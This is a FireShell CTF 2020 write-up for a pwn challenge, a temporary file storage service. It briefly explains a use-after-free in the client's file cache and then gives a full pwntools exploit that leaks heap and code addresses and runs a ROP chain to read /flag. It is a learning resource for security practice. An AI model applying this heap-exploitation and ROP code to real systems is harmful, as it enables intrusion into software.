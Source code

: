 # FireShell CTF 2020 

## Temporary File System Storage

## Information

**Category** | **Points** | **Solves** | **Writeup Author**
--- | --- | --- | ---
PWN | 500 | 0 | [konata](https://github.com/merrychap)

**Description:** 

>I have wrote an on-demand file storage service, where people may host their "files" temporarily, it works pretty >well and I doubt there are vulnerabilities :)
>Machine: Ubuntu 18.04 LTS
>You need to always start the server first (when testing locally), enjoy!
>Flag is on /flag
>Server: 142.93.113.55
>Port: 31090


**Files:**

[client](./client)

[client.remote](./client.remote)

[server](./server)

[libc](./libc-2.23.so)

## General information

Little note: I was not able to solve that task in time of ctf and finished it several hours later. Enjoy. Maybe I will add more details in the near future :)

TL;DR. After the crazy reverse part of this challenge (which will not be covered here, heh) it can be noticed that the client has some kind of cache of recenty created files (up to 3). This cache is just and an array of 3 pointers to recently opened files (that are allocated on heap). When 4th file is created, the client clears the cache and leaves pointers to file structs in the cache without zeroing them. It leads to UAF bug and further ROP chain execution.

## Exploit

```python
import random
import string

from pwn import *


def create_file(pc, filename, format, content=''):
    pc.sendlineafter('[*] 2 - Edit File', '0')
    pc.sendlineafter(':', filename)
    pc.sendlineafter(':', format)
    pc.sendlineafter(':', str(len(content)))
    if len(content) != 0:
        pc.sendafter(':', content)


def delete_file(pc):
    pc.sendlineafter('[*] 2 - Edit File', '1')


def edit_file(pc, filename, format):
    pc.sendlineafter('[*] 2 - Edit File', '2')
    pc.sendlineafter(':', filename)
    pc.sendlineafter(':', format)


def edit_file_update_content(pc, content=''):
    pc.sendlineafter('[*] 3 - Exit file editor', '0')
    pc.sendlineafter(':', str(len(content)))
    if len(content) != 0:
        pc.send(content)


def edit_file_change_display_format(pc, df):
    pc.sendlineafter('[*] 3 - Exit file editor', '1')
    pc.sendlineafter('[*] 1 - HEXDUMP:', str(df))


def edit_file_display_content(pc):
    pc.sendlineafter('[*] 3 - Exit file editor', '2')


def edit_file_exit_file_editor(pc):
    pc.sendlineafter('[*] 3 - Exit file editor', '3')


def create_req(
    print_fn=0,
    filename='',
    filename_len=0,
    fileformat='',
    fileformat_len=0,
    data=0,
    data_size=0
):
    req = ''.join([
        p64(print_fn),
        filename.ljust(100, '\x00'),
        p32(0),
        p64(filename_len),
        fileformat.ljust(16, '\x00'),
        p64(fileformat_len),
        p64(data),
        p64(data_size)
    ])

    return req


def random_string(length=10):
    letters = string.ascii_lowercase
    return ''.join(random.choice(letters) for i in range(length))


def main():
    client = remote('142.93.113.55', 31090)

    create_file(client, 'AAAA', 'AAAA')
    log.info('create req struct with data_len = 0, it leads to heap leak')
    edit_file(client, 'AAAA', 'AAAA')
    edit_file_display_content(client)

    client.recvline()
    heap = u64(client.recvline()[17:-1].ljust(8, '\x00'))
    log.success('heap @ ' + hex(heap))

    edit_file_exit_file_editor(client)

    create_file(client, 'BBBB', 'BBBB')
    create_file(client, 'CCCC', 'CCCC')

    create_file(client, 'DDDD', 'DDDD')
    log.info('clear cache and proceed with uaf')

    filename = '/flag\x00'
    server_req = (p8(4) + p32(0xdeadbeef) + p8(len(filename)) + filename).ljust(0x30, '\x00')

    req = create_req(
        print_fn=0x41414141,
        filename='FFFF' + p32(0) + server_req,
        filename_len=4,
        fileformat='FFFF',
        fileformat_len=4,
        data=heap+0x2bf0,
        data_size=0xa8
    )
    create_file(client, 'EEEE', 'EEEE', req)
    log.info('alloc on existing req struct and overwrite it')
    
    edit_file(client, 'FFFF', 'FFFF')
    edit_file_change_display_format(client, 0)
    edit_file_display_content(client)
    log.info('leak code address from an existing req struct')

    client.recvline()
    
    code_base = u64(client.recvline()[17:-1].ljust(8, '\x00')) - 0x1f90
    
    write       = code_base + 0x1760
    read        = code_base + 0x1920
    
    mov_rdi_rsp = code_base + 0x5b10
    pop_rdi     = code_base + 0x3236
    pop_rsi     = code_base + 0x4b25
    pop_rdx     = code_base + 0x5b24
    
    log.success('code base @ ' + hex(code_base))
    log.success('write     @ ' + hex(write))
    log.success('read      @ ' + hex(read))

    rop = ''.join([
        # write request to the server
        p64(pop_rdi),
        p64(3),
        p64(pop_rsi),
        p64(heap+0x2b50),
        p64(pop_rdx),
        p64(len(server_req)),
        p64(write),

        # read request from server
        p64(read),
        p64(pop_rdi),
        p64(1),
        p64(write)
    ])

    log.info('rop size = {}'.format(len(rop)))

    pause()
    req = create_req(
        print_fn=mov_rdi_rsp,
        filename='DDDD' + p32(0) + rop,
        filename_len=4,
        fileformat='DDDD',
        fileformat_len=4,
        data=heap+0x2bf0+0x10,
        data_size=0xa8
    )
    edit_file_update_content(client, req)
    edit_file_exit_file_editor(client)
    log.info('overwrite req struct with rop and execute "mov rsp, rdi"')

    edit_file(client, 'DDDD', 'DDDD')
    edit_file_display_content(client)
    log.info('enjoying the flag :)')

    client.interactive()


if __name__ == '__main__':
    main()
```

<p align="center">
  <img src="images/flag.png">
</p>

> Flag: F#{45a7f65bfbba8d5924becfa04e5d139c7098820a}
